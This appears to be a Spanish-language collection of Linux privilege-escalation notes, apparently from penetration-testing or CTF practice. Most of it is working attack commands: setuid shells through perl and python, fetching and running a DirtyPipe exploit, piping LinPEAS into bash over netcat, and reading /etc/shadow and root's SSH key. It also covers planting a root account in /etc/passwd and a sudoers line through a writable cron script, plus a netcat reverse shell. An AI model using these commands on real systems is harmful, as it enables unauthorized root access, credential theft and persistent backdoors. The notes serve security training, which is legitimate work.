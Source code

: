 # Escalacion de privilegios Linux

❯ **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
	(ALL : ALL) ALL
	(root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
	* GTFOBins [GTFOBins](https://gtfobins.github.io/)

❯ **su root** Para convertirnos en root y debemos de proporcionar una passwd
❯ **uname -a** Miramos informacion del Kernel
❯ **id** Para ver si estamos en un grupo especial

❯ **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid
* pkexec -> Podriamos usar el Pwkit


❯ **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities
❯ **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
* **/usr/bin/perl = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID
	❯ **setcap cap_setuid+ep /usr/bin/perl** 
	❯ **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** Para conseguir la consola interactiva

**Apparmor** que es modulo de seguridad del Kernel Linux que permite al administrador del sistema restringir las capabilities de un programa. En esta ocasion nos restringe la capabilitie de Perl. Pero podemos hacer lo siguiente:
❯ **touch prueba.sh** Creamos el archivo y nos ayudara a tener una consola interactiva aprovechandonos del Shebang que son #!
	#!/usr/bin/perl
	**use POSIX qw(setuid);**
	**POSIX::setuid(0);**
	**exec "****/bin/sh";
❯ **chmod** **+x prueba.sh** la ejecucion
❯ **./prueba.sh** Ejecutamos el comando anterior.
****
* **/usr/bin/python3.9 = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID para convertirnos en Root (ID=0)
	❯ **setcap cap_setuid+ep /usr/bin/python3.9** Agregas la capabilitie a la ruta python
	❯ **setcap -r /usr/bin/pthon3.9** Le quitas la capabilitie a la ruta de python
	❯ **python3.9**
		**❯ import os**
		**❯ os.setuid(0)** – (0= el usuario root)
		**❯ os.system(“/bin/sh”)** Entras a una sh



❯










- **LinPEAS github** ->  Lo descargamos y al momento de ejecutarlo, nos muestra vias potenciales para escalar privilegios, debemos hacerlo desde una bash
	- Comando -> **nc -nlvp 4646 | bash** Para que al momento de recibir el codigo, lo interprete y lo ejecute 
	- Comando -> **curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > /dev/tcp/IP Victim/4646**
Si te reporta algunas cosas en naranja, quiere decir que son vias potenciales para escalar privilegios

Con Dirty-Pipe del siguiente repo https://github.com/arinerron/CVE-2022-0847-DirtyPipe-Exploit Esto servira a partir del Kernel 5.8
Debemos de traerlo a nuestra maquina de atacnte 
- Comando -> **git clone https://github.com/arinerron/CVE-2022-0847-DirtyPipe-Exploit** 
- Comando -> **gcc exploit.c -o exploit** Creas el compilado
- Comando -> **python3 -m http.server 80** Pasas el compilado a la maquina victima, colocando un servidor 
Debemos de colocarnos el maquina victima en la carpeta de /tmp/
- Comando -> **wget http://10.10.14.12/exploit** En la maquina victima cargas el compilado 

Si no tiene wget lo podemos hacer con Netcat 
- Comando -> **nc -nlvp 443 < exploit** Mandaremos el archivo por netcat, desde nuestra maquina de atacante
- Comando -> **nc 10.10.14.12 443 > exploit** En la maquina victima cargamos el archivo, Colocamos la IP de nuestra maquina de atacante

Si no funciona lo mandamos por base64
- Comando -> **base64 -w 0 exploit; echo** Con echo podremos ver el resultado de la codificacion en base64, solo debmos copiarlos y lo pegamos en la maquina victima  
- Comando -> **echo "resultado del comando de arriba" | base64 -d > dirtypipe** Hacemos que lo decodifique con base64 y lo colocamos en un archivo llamado DirtyPipe
- Comando -> **chmod +x dirtypipe** Le damos permisos de ejecucion 
- Comando -> **./dirtypipe** Lo ejecutamos esperando a que nos de Shell como Root

- Comando -> **find / -perm -4000 -user root 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root
	Encontrar **/usr/local/bin/backup** Es un script que podemos usar
	
- Comando -> **find / -perm -4000 -user root -ls 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root, tambien nos reportara el usuario, grupo y permisos




Otra que podemos encontrar en las capabilities es un tac: El tac es un cat pero te muestra el contenido al reves
	***/usr/bin/tac* = cap_dac_read_search+ei** Con esta capabilitie podemos utilizar ese comando para poder leer cualquier archivo privilegiado del sistema
	- Comando -> **tac < File>** Podemos colocar un archivo de alguna ruta como /etc/shadow, /root/.ssh/id_rsa, etc... o un file directamente y lo hara como root 
	Tambien pordemos conectarnos al usuario root obteniendo su clave privada de la siguente manera:
			- Comando -> **tac /root/.ssh/id_rsa | tac** Podemos ver la clave privada del usuario root, colocarla en un archivo que se llame id_rsa y asi podernos conectar por ssh con esa id_rsa, colocandole el privilegio 600, le ponemos doble tac para que se vea como un cat 



- Comando -> **find / -writable 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"** Buscamos archivo desde la raiz con capacidad de escritura y los errores los ocultamos, ademas de quitar (vE=quitas multiples palabras) vas,dev,run, etc... y al final encontraremos **/etc/passwd**
- Comando -> **find / -writable -ls 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"** Buscamos archivo desde la raiz con capacidad de escritura y los errores los ocultamos, ademas de quitar (vE=quitas multiples palabras) vas,dev,run, etc... y al final encontraremos **/etc/passwd**, con ls podemos ver el propietario y si el grupo otros pueden modificarlo (w=write)
		Si podemos entrar al **/etc/passwd** podemos ponerle al usuario root una passwd directamente hasheada de forma hardcodeada, para que al momento de hacer un **sudo su** compare directamente con lo que colocamos y no lo lea del **/etc/shadow**
	- Comando -> **openssl passwd** Creamos una passwd en formato DES(unix), y este lo colocaremos en la parte verde de root:**x**:0:0 y guardamos el archivo


- Comando -> **cat /etc/crontab** Tareas CRON, que son tareas que se ejecutan a intervalos regulares de tiempos en el sistema 
	Si miramos esta ruta en el file **\*/S * * * * root /writable/script.sh** Podemos escribir lo que sea dentro de ese archivo y asi ganar privilegio: 
		**echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers** Hacemos que no nos pida la passwd
		**nc < IP> < PORT> -e /bin/sh** Para poder hacer una revershell
		**echo "newRoot::0:0:newRoot:/home/newRoot:/bin/sh" >> /etc/passwd** Para poder tener acceso a todo



- Comando -> **cd .ssh** Nos dirigimos al dir SHH que contiene un archivo con la clave privada **id_rsa (clave privada)**, este se encuentra en **home/user/.ssh/id_rsa** o la publica **home/user/.ssh/id_rsa.pub** o las **home/user/.ssh/authorized_keys**
	- **nano** **id_rsa** Creamos el archivo y le pegamos el contenido del id_rsa que habiamos encontrado en la maquina victima
	- **chmod 600** **id_rsa** Le cambiamos los privilegios para poderla usar el archivo
	- **ssh -i** **id_rsa** **< USER>@< IP>** Conectarnos con el id_rsa a la maquina victima por medio de ssh sin proporcionar la password
- Comando -> **ssh < user>@localhost** Por lo que cuando tenemos un authorized_keys podemos entrar por SSH sin proporcionar passwd en forma local 


- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux
Encontramos un **tightvnc**. Esto es una aplicacion informatica de codigo abierto para administracion remota multiplataforma que utiliza el protocolo RFB deVNC para controlar panatlla de otro equipo de forma remota. Y los puerto que comunmente corre es el 5900-5901, 5800-5801
	Seguimos los pasos de la parte del Port Forwardin Dinamico



- Comando -> **ps aux | grep "^root"** Mostrara todos los procesos que estan corriendo como root

Path Hajacking -> Sirve para secuestrar el path y hacer que el comando que vas a ejecutar lo busque en la ruta que quieres.

- Comando -> **find .** Para ver archivos y sus extensiones y asi ver si podemos ejecutar alguno

En lugar de **pspy**, nosotros creamos nuestro propio script para ver lor procesos nuevos, antiguos, asi como comandos y ver cual proceso nos puede ayudar a escalar privilegios.
Podemos hacer el script o podemos ejecutar el comando asi solo: **ps -eo command**
- Comando -> **nano file.sh**
	#!/bin/bash
	
	funtion ctrl_c(){
		echo -e "\\n[!] Saliendo \\n"
		tput cnorm; exit 1
	}
		
	\# Ctrl + c
	trap ctrl_c INT
	tput civis
	old_process="\$(ps -eo command)"

	while true; do
		new_process="\$(ps -eo command)"
		diff <(echo "\$old_process")<(echo "\$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker
		old_process=\$new_process
	done	
Despues encontramos un archivo que lo esta ejecutando root y otros lo pueden modificar 
- Comando -> **nano /opt/tmp.py**
	os.system('chmod u+s /bin/bash')
Modificando esa parte le diremos que otorgue el privilegio usid a la bash, para que cuando lo ejecute le pondra el s asi: -rw**s**r-xr-x root root 
- Comando -> **bash -p** Para ejecutar la bash con privilegios (p=priviledge) y atentara contra el propietario root
El comando ps nos permite detectar todos los comandos y procesos que se estan ejecuatndo en el sistema
